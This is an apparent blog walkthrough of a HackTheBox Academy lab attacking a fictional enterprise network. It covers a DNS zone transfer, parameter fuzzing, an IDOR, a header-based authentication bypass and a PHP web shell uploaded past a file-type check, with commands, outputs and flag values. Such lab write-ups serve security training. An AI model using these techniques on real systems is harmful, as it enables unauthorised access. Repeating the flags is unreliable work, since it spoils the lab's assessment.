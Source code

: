 ```yaml
---
title: HTBAcademy Attacking Enterprise Networks Walkthrough
date: 2025-03-14 00:00:01 +0800
categories: [HackTheBox]
tags: [HackTheBox]
author: kevin_chen
---
```


# HTBAcademy Attacking Enterprise Networks Walkthrough

## First Flag

The first flag was found using the following command:

```sh
dig axfr inlanefreight.local @10.129.229.147
```

### Output:
```
; <<>> DiG 9.18.30-0ubuntu0.24.04.2-Ubuntu <<>> axfr inlanefreight.local @10.129.229.147
;; global options: +cmd
inlanefreight.local. 86400 IN SOA ns1.inlanfreight.local. dnsadmin.inlanfreight.local. 21 604800 86400 2419200 86400
inlanefreight.local. 86400 IN NS inlanefreight.local.
inlanefreight.local. 86400 IN A 127.0.0.1
blog.inlanefreight.local. 86400 IN A 127.0.0.1
careers.inlanefreight.local. 86400 IN A 127.0.0.1
dev.inlanefreight.local. 86400 IN A 127.0.0.1
flag.inlanefreight.local. 86400 IN TXT "HTB{DNs_ZOn3_Tr@nsf3r}"
gitlab.inlanefreight.local. 86400 IN A 127.0.0.1
ir.inlanefreight.local. 86400 IN A 127.0.0.1
status.inlanefreight.local. 86400 IN A 127.0.0.1
support.inlanefreight.local. 86400 IN A 127.0.0.1
tracking.inlanefreight.local. 86400 IN A 127.0.0.1
vpn.inlanefreight.local. 86400 IN A 127.0.0.1
```

---

## Second Flag

Found using an FTP anonymous login:

```sh
ftp anonymous@ip
get flag.txt
```

---

## Parameter Fuzzing

I used `ffuf` to discover parameters:

```sh
ffuf -u http://careers.inlanefreight.local:80/FUZZ?id=1 -w /home/kchen/SecLists/Discovery/Web-Content/burp-parameter-names.txt -mc 200-299,301,302,307,401,403,405,500
```

### Results:
```
apply        [Status: 200, Size: 16408, Words: 5625, Lines: 265, Duration: 84ms]
login        [Status: 200, Size: 9459, Words: 2752, Lines: 187, Duration: 159ms]
profile      [Status: 200, Size: 10148, Words: 3146, Lines: 195, Duration: 159ms]
register     [Status: 200, Size: 9754, Words: 2772, Lines: 191, Duration: 182ms]
```

I registered an account at:

```
http://careers.inlanefreight.local:80/register?id=1
```

Then, accessing:

```
http://careers.inlanefreight.local:80/profile?id=4
```

gave me the second flag:

```
HTB{8f40ecf17f681612246fa5728c159e46}
```

---

## Exploiting `dev.inlanefreight.local`

Used `ffuf` to discover PHP files:

```
dev.inlanefreight.local/login.php
```

The `GET` request was denied, but after testing various HTTP methods, `TRACK` worked. The request included a header:

```
X-Custom-IP-Authorization: 172.x.x.x
```

Setting it to `127.0.0.1` allowed me to bypass authentication.

---

## File Upload Exploit

I found an image upload feature but it only accepted `image/png`. To bypass this, I:

1. Uploaded a PNG file and recorded the HTTP request in BurpSuite.
2. Modified the file contents to a PHP web shell.
3. Changed the filename extension in BurpSuite to `.php`.
4. Resent the modified request.

The file was uploaded successfully to:

```
/uploads/screenshot.php
```

Executing commands via:

```
http://dev.inlanefreight.local/uploads/screenshot.php?cmd=id
```

---

## Finding the Next Flag

To locate flag files, I ran:

```sh
find / -type f -name "*flag.txt*"
```

Since this was a web shell, I had to URL encode the command before execution.

---
